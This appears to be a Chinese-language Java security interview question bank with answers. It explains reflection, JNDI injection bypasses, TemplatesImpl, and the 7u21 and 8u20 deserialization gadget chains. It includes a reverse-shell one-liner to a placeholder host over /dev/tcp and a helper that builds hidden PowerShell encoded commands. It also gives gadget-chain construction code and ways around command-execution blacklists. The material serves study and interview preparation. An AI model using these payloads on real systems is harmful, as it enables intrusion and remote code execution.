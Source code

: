 # JavaSecInterview

## 介绍

这是什么：Java安全研究与安全开发面试题总结

为什么要做：**帮助自己校招找到工作，同时帮助广大Java安全师傅顺利找到工作**

计划定期更新，从基础到各种实战问题，打造齐全的Java安全面试题库

最低难度★，最高难度★★★★★



作者技术水平水平，难免有错误之处，欢迎师傅们提出ISSUE和PR



## JDK

- Java反射做了什么事情（★）

反射是根据字节码获得类信息或调用方法。从开发者角度来讲，反射最大的意义是提高程序的灵活性。Java本身是静态语言，但反射特性允许运行时动态修改类定义和属性等，达到了静态的效果



- Java反射可以修改Final字段嘛（★★）

可以做到，参考以下代码

```java
field.setAccessible(true);
Field modifiersField = Field.class.getDeclaredField("modifiers");
modifiersField.setAccessible(true);
modifiersField.setInt(field, field.getModifiers() & ~Modifier.FINAL);
field.set(null, newValue);
```



- 传统的反射方法加入黑名单怎么绕（★★★）

可以使用的类和方法如下（参考三梦师傅）

```java
ReflectUtil.forName
BytecodeDescriptor
ClassLoader.loadClass
sun.reflect.misc.MethodUtil
sun.reflect.misc.FieldUtil
sun.reflect.misc.ConstructorUtil
MethodAccessor.invoke
JSClassLoader.invoke
JSClassLoader.newInstance
```



- Java中可以执行反弹shell的命令吗（★★）

可以执行，但需要对命令进行特殊处理。例如直接执行这样的命令：`bash -i >& /dev/tcp/ip/port 0>&1`会失败，简单来说因为`>`符号是重定向，如果命令中包含输入输出重定向和管道符，只有在`bash`下才可以，使用Java执行这样的命令会失败，所以需要加入`Base64`

```shell
bash -c {echo,base64的payload}|{base64,-d}|{bash,-i}
```

针对`Powershell`应该使用以下的命令

```shell
powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc 特殊的Base64
```

这个特殊的Base64和普通Base64不同，需要填充0，算法如下

```java
public static String getPowershellCommand(String cmd) {
    char[] chars = cmd.toCharArray();
    List<Byte> temp = new ArrayList<>();
    for (char c : chars) {
        byte[] code = String.valueOf(c).getBytes(StandardCharsets.UTF_8);
        for (byte b : code) {
            temp.add(b);
        }
        temp.add((byte) 0);
    }
    byte[] result = new byte[temp.size()];
    for (int i = 0; i < temp.size(); i++) {
        result[i] = temp.get(i);
    }
    String data = Base64.getEncoder().encodeToString(result);
    String prefix = "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc ";
    return prefix + data;
}
```



- 假设`Runtime.exec`加入黑名单还有什么方式执行命令（★★）

其实这个问题有点类似`JSP Webshell`免杀

大致方法有这些：使用基本的反射，ProcessImpl和ProcessBuilde，JDNI和LDAP注入，TemplatesImpl，BCEL，BeansExpression，自定义ClassLoader，动态编译加载，ScriptEngine，反射调用一些native方法，各种EL（SPEL和Tomcat EL等）



- RMI和LDAP类型的JNDI注入分别在哪个版本限制（★）

RMI的JNDI注入在8u121后限制，需要手动开启`com.sun.jndi.rmi.object.trustURLCodebase`属性

LDAP的JNDI注入在8u191后限制，需要开启`com.sun.jndi.ldap.object.trustURLCodebase`属性



- RMI和LDAP的限制版本分别可以怎样绕过（★★）

RMI的限制是限制了远程的工厂类而不限制本地，所以用本地工厂类触发

通过`org.apache.naming.factory.BeanFactory`结合`ELProcessor`绕过

LDAP的限制中不对`javaSerializedData`验证，所以可以打本地`gadget`



- 谈谈TemplatesImpl这个类（★★）

这个类本身是JDK中XML相关的类，但被很多`Gadget`拿来用

一般情况下加载字节码都需要使用到ClassLoader来做，其中最核心的`defineClass`方法只能通过反射来调用，所以实战可能比较局限。但JDK中有一个`TemplatesImpl`类，其中包含`TransletClassLoader`子类重写了`defineClass`所以允许`TemplatesImpl`类本身调用。`TemplatesImpl`其中有一个特殊字段`_bytecodes`是一个二维字节数组，是被加载的字节码

通过`newTransformer`可以达到`defineClass`方法加载字节码。而`getOutputProperties`方法（getter）中调用了`newTransformer`方法，也是一个利用链

```text
TemplatesImpl.getOutputProperties()
	TemplatesImpl.newTransformer()
	TemplatesImpl.getTransletInstance()
	TemplatesImpl.defineTransletClasses()
	ClassLoader.defineClass()
	Class.newInstance()
```



- 了解BCEL ClassLoader吗（★）

BCEL的全名应该是Apache Commons BCEL，属于Apache Commons项目下的一个子项目

该类常常用于各种漏洞利用POC的构造，可以加载特殊的字符串所表示的字节码

但是在Java 8u251之后该类从JDK中移除



- 谈谈7U21反序列化（★★★★★）

从`LinkedHashSet.readObject`开始，找到父类`HashSet.readObject`方法，其中包含`HashMap`的类型转换以及`HashMap.put`方法，跟入`HashMap.put`其中对`key`与已有`key`进行`equals`判断，这个`equals`方法是触发后续利用链的关键。但`equals`方法的前置条件必须满足

```java
if (e.hash == hash && ((k = e.key) == key || key.equals(k)))
```

所以这里需要用哈希碰撞，让下一个`key`的哈希值和前一个相等，才可进入第二个条件。而第二个条件中必须让前一个条件失败才可以进去`equals`方法，两个`key`对象不相同是显而易见的

接下来的任务是找到一处能触发`equals`方法的地方

反射创建`AnnotationInvocationHandler`对象，传入`Templates`类型和`HashMap`参数。再反射创建被该对象代理的新对象，根据动态代理技术，代理对象方法调用需要经过`InvocationHandler.invoke`方法，在`AnnotationInvocationHandler`这个`InvocationHandler`的`invoke`方法实现中如果遇到`equals`方法，会进入`equalsImpl`方法，其中遍历了`equals`方法传入的参数`TemplatesImpl`的所有方法并反射调用，通过`getOutputProperties`方法最终加载字节码导致RCE

关于7U21的伪代码如下

```java
Object templates = Gadgets.createTemplatesImpl();
String zeroHashCodeStr = "f5a5a608";
HashMap map = new HashMap();
Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
ctor.setAccessible(true);
InvocationHandler tempHandler = (InvocationHandler) ctor.newInstance(Templates.class, map);
Templates proxy = (Templates) Proxy.newProxyInstance(exp.class.getClassLoader(), templates.getClass().getInterfaces(), tempHandler);
LinkedHashSet set = new LinkedHashSet();
set.add(templates);
set.add(proxy);
map.put(zeroHashCodeStr, templates);
return set;
```

结合调用链

```text
LinkedHashSet.readObject()
  LinkedHashSet.add()/HashMap.put()
      Proxy(Templates).equals()
        AnnotationInvocationHandler.invoke()
          AnnotationInvocationHandler.equalsImpl()
            Method.invoke()
              ...
                TemplatesImpl.getOutputProperties()
```

可以看到伪代码最后在`map`中`put`了某个元素，这是为了处理哈希碰撞的问题。`TemplatesImpl`没有重写`hashcode`直接调用`Object`的方法。而代理对象的`hashcode`方法也是会先进入`invoke`方法的，跟入`hashCodeImpl`方法看到是根据传入参数`HashMap`来做的，累加每一个`Entry`的`key`和`value`计算得出的`hashcode`。通过一些运算，可以找到符合条件的碰撞值



- 谈谈8U20反序列化（★★★★★）

这是7U21修复的绕过（作者对该问题了解较浅，面试没有被问到过）

在`AnnotationInvocationHandler`反序列化调用`readObject`方法中，对当前`type`进行了判断。之前POC中的`Templates`类型会导致抛出异常无法继续。使用`BeanContextSupport`绕过，在它的`readObject`方法中调用`readChildren`方法，其中有`try-catch`但没有抛出异常而是`continue`继续

所以这种情况下，就算之前的反序列化过程中出错，也会继续进行下去。但想要控制这种情况，不可以用正常序列化数据，需要自行构造畸形的序列化数据



- 了解缩小反序列化Payload的手段吗（★★★）

首先最容易的方案是使用Javassist生成字节码，这种情况下生成的字节码较小。进一步可以用ASM删除所有的LineNumber指令，可以更小一步。最终手段可以分块发送多个Payload最后合并再用URLClassLoader加载







